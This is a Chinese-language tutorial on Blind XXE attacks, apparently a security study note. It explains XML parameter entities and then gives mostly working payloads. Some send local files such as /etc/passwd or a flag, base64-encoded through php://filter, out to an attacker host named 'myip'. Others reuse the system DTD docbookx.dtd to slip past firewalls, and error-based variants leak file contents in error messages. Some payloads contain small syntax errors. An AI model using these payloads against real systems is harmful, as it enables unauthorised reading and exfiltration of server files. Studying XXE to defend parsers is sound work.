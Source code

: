 # Blind XXE
## 参数实体
XML的DTD实体可以定义普通实体和参数实体两种类型，而这两种类型可以再分别为内部实体和外部实体。XXE就全称为XML外部实体注入。通过外部实体SYSTEM请求本地文件uri,通过某种方式返回本地文件内容就导致了XXE漏洞
声明内部实体和外部实体区别如下
```
<!ENTITY 实体名 SYSTEM url> //外部实体
<!ENTITY 实体名 实体的值> //内部实体
```
Blind XXE需要使用到DTD约束自定义实体中的参数实体。参数实体是只能在DTD中定义何使用的实体,以%为标志定义
定义和使用方法如下
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
<!ENTITY normal "hello"> <!--内部普通实体-->
<!ENTITY normal SYSTEM "http://xml.org/hhh.dtd"> <!--外部普通实体-->
<!ENTITY % para SYSTEM 'file:///1234.dtd'> <!--外部参数实体-->
%para;  <!--引用参数实体-->
]>
<message>&normal;</message>
```
而且参数实体还能嵌套,需要注意的是,内层定义的参数实体%需要进行HTML转义,否则会出现解析错误
```xml
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % outside '<!ENTITY &#x25;files SYSTEM "file:///etc/passwd">'>
]>
<message>&normal;</message>
```
# Blind XXE
## OOB

### 引入服务器DTD文件
既然外部实体可以通过请求内部文件uri获得内部文件内容,那么这样的话我们是不是可以写两个外部参数实体,第一个用file协议请求本地文件并将内容保存在参数实体中,第二个用http或者ftp协议请求服务器并带上文件内容
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ENTITY % files SYSTEM "file:///etc/passwd">
    <!ENTITY % send SYSTEM "http://myip/?a=%files;">
    %send;
]>
```
这样可以吗,《XML Schema,DTD,and Entity Attacks》第10页明确表示了不行,几乎所有XML解析器都不会解析同级参数实体的内容
但是在上面我们也展示了参数实体可以嵌套定义,当两个参数实体不是同一级时,我们尝试调用一下
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % start '<!ENTITY &#x25;send SYSTEM 'http://myip/?%file;'>'>
%start;
%send;
]>
```
如上 我们先调用了start参数实体,生成了send参数实体声明。在send参数实体声明中,调用了files参数实体并请求了相关链接
测试发现错误PEReferences forbidden in internal subset in Entity PEReferences指的是参数实体引用(Parameter Entity Reference) 
禁止在内部Entity中引用实体参数
也就是因为这个限制 前人就想到 既然内部不行就引用外部的DTD
先在自己的服务器中加入以下DTD文件(xml.dtd)
```xml
<!ENTITY %start "<!ENTITY &#x25;send SYSTEM 'http://myip:10001/?%file;'>">
%start;
```
然后请求的数据为下面(用php协议将发送的数据编码为base64)
```
<?xml version="1.0"?>
<!DOCTYPE message[
<!ENTITY % remote SYSTEM "http://myip/xml.dtd"> 
%remote;
%send;
]>
<message>1234</message>
```
即可成功读到文件

### 引用本地DTD文件
如果目标主机的防火墙十分严格,不允许我们请求外网服务器dtd呢?由于xml的广泛使用,其实在各个系统中已经存在了部分DTD文件。按照上面的理论,我们只要从外部引入DTD文件,并在其中定义一些实体内容就行
我们就先来看看ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd部分内容
![](/images/1/84/1.png)
它定义了很多参数实体并调用了它。那么我们可以在内部重写一个dtd文件中含有的参数实体,而此时调用在外部,依然可以实现
```xml
<?xml version="1.0">
<!DOCTYPE message[
<!ENTITY % remote SYSTEM 'usr/share/yelp/dtd/docbookx.dtd'>
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=file:///flag'>
<!ENTITY % ISOamso '
<!ENTITY &#x25;eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;send;
'>
%remote;
]>
<message>1234</message>
```
其中 这里已经是三层参数实体嵌套了,第二层嵌套时我们只需要给定义参数实体的%编码,第三层就需要在第二层的基础上将所有% & ' "html编码
第一个调用的参数实体是%remote 在/usr/share/yelp/dtd/docbookx.dtd文件中调用了%ISOamso;
在ISOamso定义的实体中相继调用了eval和send 这里不直接使用两层嵌套的原因是如果直接使用两层嵌套仍然会报PEReferences forbidden in ternal subset inEntity错误

## 基于报错的Blind XXE
基于报错的原理和OOB类似,OOB通过构造一个带外的url将数据带出,而基于报错是构造一个错误的url并将泄露文件内容放在url中,通过这样的方式返回数据
所以和OOB构造方式几乎只有url出不同,其他地方一模一样

### 通过引入服务器文件
xml.dtd
```xml
<!ENTITY % start "<!ENTITY &#x25;send SYSTEM 'file:///hhhhhhhhhh/%file;'>">
%start;
```

```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ENTITY % remote SYSTEM 'http://xxxxxx/xml.dtd'>
    <!ENTITY % file SYSTEM 'file:///etc/passwd'>
    %remote;
    %send;
]>
<message>1234</message>
```

### 通过引入本地文件
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ENTITY % remote SYSTEM 'usr/share/yelp/dtd/docbookx.dtd'>
    <!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=file:///etc/passwd'>
    <!ENTITY % ISOamso '
    <!ENTITY &#x25;eval "<!ENTITY &#x26;#x25;send SYSTEM &#x27;file://hhhhhhh/?&#x25;file&#x27;>">
    &#x25;eval
    &#x25;send
    '> 
    %remote;
]>
<message>1234</message>
```